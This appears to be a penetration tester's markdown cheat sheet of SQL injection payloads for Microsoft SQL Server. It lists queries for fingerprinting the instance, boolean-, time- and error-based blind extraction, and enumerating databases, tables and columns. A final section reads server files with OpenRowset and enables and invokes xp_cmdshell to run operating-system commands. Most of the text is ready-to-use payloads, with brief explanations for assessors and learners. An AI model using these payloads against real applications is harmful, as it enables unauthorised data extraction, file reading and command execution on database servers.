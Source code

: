 # SQLi for [Microsoft SQL server](https://www.microsoft.com/en-us/sql-server)

## Things to remember
  *  HackTricks has [multiple](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server) [pages](https://book.hacktricks.xyz/pentesting-web/sql-injection/mssql-injection) covering MSSQL
  *  MSSQL supports stacked queries making [`xp_cmdshell`](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver16) usage more forgiving
  *  `LIKE` operator is **NOT** case sensitive: use `COLLATE` to enforce sensitivity
  *  Boolean and time-based injections are versatile... get creative!

## Common errors
  *  `Subquery returned more than 1 value` fixed by using [`STRING_AGG()`](https://learn.microsoft.com/en-us/sql/t-sql/functions/string-agg-transact-sql?view=sql-server-ver16) to return a single value
  *  `Data is Null. This method or property cannot be called on Null values.` caused by null arguments
      *  Null values may exist within the target table, in this case [filter them out](https://learn.microsoft.com/en-us/sql/t-sql/language-elements/not-equal-to-transact-sql-traditional?view=sql-server-ver16)
      *  Null values may be returned due to incorrect table/schema names, check for typos
  *  `Cannot resolve the collation conflict` fixed by using `COLLATE` so sub-query matches other datasets
      *  This error is easy to cause while attempting `UNION` injections

## DBMS instance details
  *  DBMS version, current user, data directory, hostname, server collation settings, etc.
      *  Data directory used to [store MSSQL stuff](https://learn.microsoft.com/en-us/sql/sql-server/install/file-locations-for-default-and-named-instances-of-sql-server?view=sql-server-ver16&viewFallbackFrom=sql-server-ver22)
      *  [`USER_NAME()`](https://learn.microsoft.com/en-us/sql/t-sql/functions/user-name-transact-sql?view=sql-server-ver16) and [`SUSER_NAME()`](https://learn.microsoft.com/en-us/sql/t-sql/functions/suser-name-transact-sql?view=sql-server-ver16) for enumerating users

```
(SELECT @@version)
(SELECT USER_NAME())
(SELECT SUSER_NAME())
(SELECT SUSER_NAME(1))
(SELECT SERVERPROPERTY('instancedefaultdatapath'))
(SELECT physical_name FROM master.sys.master_files WHERE database_id = 1 AND file_id = 1)
(SELECT HOST_NAME())
(SELECT SERVERPROPERTY('Collation'))
```

## Boolean-based blind
  *  Infer DB contents from true/false responses
  *  A simple way to induce this type of response is to use `OR`/`AND` operators
      *  More complex ways could also exist depending on the application
  *  MSSQL is case-insensitive by default, `COLLATE` to enforce sensitivity
      *  Consider hex encoding to bypass issues with [collation settings](https://learn.microsoft.com/en-us/sql/relational-databases/collations/view-collation-information?view=sql-server-ver16)

```
(SELECT 1 WHERE db_name() LIKE '%')
(SELECT 1 WHERE db_name() COLLATE Latin1_General_CS_AS LIKE '%')
(SELECT 1 WHERE master.sys.fn_varbintohexstr(CAST(db_name() as varbinary)) LIKE '%')
(SELECT 1 WHERE ascii(SUBSTRING(db_name(), 1, 1)) < 127)
```

## Time-based blind
  *  Infer DB contents by forcing the server to wait and measuring response times
  *  [`IF`](https://learn.microsoft.com/en-us/sql/t-sql/language-elements/if-else-transact-sql?view=sql-server-ver16) and [`exists()`](https://learn.microsoft.com/en-us/sql/t-sql/language-elements/exists-transact-sql?view=sql-server-ver16) used to [trigger delay on conditional statement](https://sqlwiki.netspi.com/injectionTypes/blindBased/#sqlserver)
  *  [`WAITFOR DELAY`](https://learn.microsoft.com/en-us/sql/t-sql/language-elements/waitfor-transact-sql?view=sql-server-ver16) is obvious for this, but others may exist
      *  [`GENERATE_SERIES()`](https://learn.microsoft.com/en-us/sql/t-sql/functions/generate-series-transact-sql?view=sql-server-ver16) may be applicable for wasting CPU cycles

```
IF exists((SELECT 1 WHERE db_name() LIKE '%')) WAITFOR DELAY '0:0:5'
IF exists((SELECT 1 WHERE db_name() COLLATE Latin1_General_CS_AS LIKE '%')) WAITFOR DELAY '0:0:5'
IF exists((SELECT 1 WHERE ascii(SUBSTRING(db_name(), 1, 1)) < 127)) WAITFOR DELAY '0:0:5'
```

## Error-based
  *  Cause an MSSQL error that contains the result of a subquery
      *  Useful if errors are rendered on the page
  *  `OR`/`AND` operators useful to include error-causing functions
  *  [PayloadsAllTheThings has a section](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md#mssql-error-based) covering this
  *  [`CONVERT()`](https://learn.microsoft.com/en-us/sql/t-sql/functions/cast-and-convert-transact-sql?view=sql-server-ver16) and [`CAST()`](https://learn.microsoft.com/en-us/sql/t-sql/functions/cast-and-convert-transact-sql?view=sql-server-ver16) used to cause errors by [converting non-compatible data types](https://sqlwiki.netspi.com/injectionTypes/errorBased/#sqlserver)
      *  The function examples listed below are **NOT** used correctly... duh!
  *  Subqueries used to cause errors by returning a non-compatible data type
      *  Ex. Return a `string` into a column meant to for an `int`

```
(CONVERT(int, (SELECT db_name())))
(CAST((SELECT db_name()) AS int))
```

## Enumerate databases, tables, and columns
  *  [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md#mssql-list-databases) and [NetSPI wiki](https://sqlwiki.netspi.com/attackQueries/informationGathering/#sqlserver) cover more methods
  *  List current database or all databases
      *  `STRING_AGG()` used to return single-value from subquery
  *  List all tables within a given database
  *  List all columns within a given table
      *  Fuzz number of columns using `ORDER BY`/`UNION` operators

```
(SELECT db_name())
(SELECT STRING_AGG(name, ', ') FROM sys.databases)
(SELECT STRING_AGG(name, ', ') FROM exampleDB..sysobjects WHERE xtype = 'U')
(SELECT STRING_AGG(CONCAT(column_name, ':', data_type), ', ') FROM information_schema.columns WHERE table_catalog = 'exampleDB' AND table_name = 'exampleTable')
```

## System interaction
  *  Filesystem access and command execution
  *  Read files from filesystem using [`OpenRowset()`](https://learn.microsoft.com/en-us/sql/t-sql/functions/openrowset-transact-sql?view=sql-server-ver16)
      *  Use [`fn_my_permissions()`](https://learn.microsoft.com/en-us/sql/relational-databases/system-functions/sys-fn-my-permissions-transact-sql?view=sql-server-ver16) function to [check current user permissions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md#mssql-read-file)
      *  `master.sys.fn_varbintohexstr()` used to easily render file contents on page
  *  Write files/execute commands using [`xp_cmdshell`](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md#mssql-command-execution)
      *  Easiest to enable/invoke using stacked queries
      *  [Other methods exist](https://www.red-gate.com/simple-talk/wp-content/uploads/2017/07/spWriteStringTofile.txt) but require creating new stored procedures

```
(SELECT STRING_AGG(permission_name, ', ') COLLATE SQL_Latin1_General_CP1_CI_AS FROM fn_my_permissions(NULL, 'SERVER'))
(SELECT BulkColumn FROM OpenRowset(BULK '/path/to/file', SINGLE_CLOB) AS Contents)
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
EXEC xp_cmdshell 'ping -n 4 192.168.1.169';
```
